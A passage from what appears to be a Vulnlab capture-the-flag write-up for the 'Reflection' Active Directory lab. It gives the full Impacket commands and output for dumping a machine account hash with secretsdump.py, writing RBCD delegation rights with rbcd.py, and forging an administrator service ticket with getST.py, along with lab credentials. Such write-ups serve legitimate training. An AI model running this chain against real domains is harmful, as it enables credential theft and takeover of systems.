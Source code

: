 ```
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : DBl+5MPkpJg5id
Attributes : 0
```
## WS01

Again looking at the BloodHound output, `georgia.price` has `GenericAll` rights over WS01:

![img](/assets/screenshots/vulnlab-reflection/bloodhound2.png)

This time, i already have access to computer account (MS01) so i can abuse RBCD. There is a great [article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#practice) on the necessary steps. Only thing i am missing is the password to MS01, but i can get the NT hash instead with `secretsdump.py`, as i have admin access to MS01:
```
secretsdump.py administrator:'H447.++h6g5}xi'@10.10.230.150
Impacket v0.11.0 - Copyright 2023 Fortra
<SNIP>
REFLECTION\MS01$:aad3b435b51404eeaad3b435b51404ee:d4af14c2b96f72e1a935ac16fe6a8227:::
<SNIP>
```
First, allow MS01 to impersonate users on WS01:
```
rbcd.py -delegate-from 'MS01$' -delegate-to 'WS01$' -action 'write' 'reflection.vl/georgia.price:DBl+5MPkpJg5id' -dc-ip 10.10.230.149
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MS01$ can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MS01$        (S-1-5-21-3375389138-1770791787-1490854311-1104)
```
Second, get the ticket impersonating administrator user:
```
getST.py -spn 'cifs/ws01.reflection.vl' -impersonate 'administrator' 'reflection.vl/MS01$' -hashes :d4af14c2b96f72e1a935ac16fe6a8227 -dc-ip 10.10.230.149
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```